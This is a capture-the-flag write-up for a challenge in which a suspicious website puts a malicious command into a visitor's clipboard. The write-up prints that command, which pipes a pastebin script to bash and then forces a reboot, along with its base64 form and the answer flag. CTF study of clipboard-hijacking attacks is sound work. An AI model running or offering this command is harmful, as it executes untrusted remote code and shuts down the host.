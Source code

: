 # Lazy SysAdmin #1


## Presentation 
Your system administrator calls you, all worried, he's just observed some strange behavior: the server he was connected on has suddenly shut down. After some questioning, you realize that he's been browsing on a suspicious wesite. You decide to inspect the website yourself. Will you be able to find the root of your problems ahead ?
Once you've found it, base64 the malicious charge.

Format : **HERO{base64(malicious charge)}** (no case-sensitive)
Example : HERO{YmFzZTY0IDQgbGlmZS4=}


## Write-up

Copy paste any sentences in one of the blogs and look at your buffer content 

```
curl -s https://pastebin.com/raw/2pdGb1Z0 | bash && sleep 2 && reboot -f
```

```
$ echo -n "curl -s https://pastebin.com/raw/2pdGb1Z0 | bash && sleep 2 && reboot -f" | base64 
Y3VybCAtcyBodHRwczovL3Bhc3RlYmluLmNvbS9yYXcvMnBkR2IxWjAgfCBiYXNoICYmIHNsZWVwIDIgJiYgcmVib290IC1m
```


flag : HERO{Y3VybCAtcyBodHRwczovL3Bhc3RlYmluLmNvbS9yYXcvMnBkR2IxWjAgfCBiYXNoICYmIHNsZWVwIDIgJiYgcmVib290IC1m}
